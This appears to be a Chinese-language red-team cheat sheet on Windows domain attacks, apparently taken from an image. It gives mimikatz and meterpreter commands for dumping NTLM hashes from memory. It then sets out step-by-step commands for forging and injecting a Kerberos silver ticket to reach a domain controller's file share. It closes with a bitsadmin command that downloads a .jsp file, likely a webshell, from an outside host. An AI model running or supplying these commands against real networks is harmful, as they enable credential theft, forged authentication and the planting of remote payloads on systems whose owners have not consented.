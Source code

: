 **获取Server（目标服务器）的NTML hash**

```bash
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

或MSF模块

```bash
meterpreter > load mimikatz
meterpreter > msv
```

**制造白银票据**

**（1）清空当前系统的票据**

```bash
#使用系统命令
klist purge
```

**（2）伪造票据**

```bash
mimikatz.exe "kerberos::golden /domain:wintrysec.lab /sid:S-1-5-21-1160434164-3042164129-2463410311 /target:DC.wintrysec.lab /service:CIFS /rc4:f0e889883425d83b0071e789507b3e6b /user:admin666 /ptt" exit
```

**（3）验证权限**

```
dir \\DC\c$
```

## 黄金票据和白银票据的不同 

**访问权限不同：**

- Golden Ticket：伪造TGT，可以获取任何Kerberos服务权限
- Silver Ticket：伪造TGS，只能访问指定的服务

**加密方式不同：**

- Golden Ticket由Kerberos的Hash加密
- Silver Ticket由服务账号（通常为计算机账户）Hash加密

**认证流程不同：**

- Golden Ticket的利用过程需要访问域控，
- 而Silver Ticket不需要

# Windows文件下载

```bash
bitsadmin /transfer n http://192.168.9.202/wintrysec.jsp C:\Users\Administrator\Desktop\新建文件夹\wintrysec.jsp
```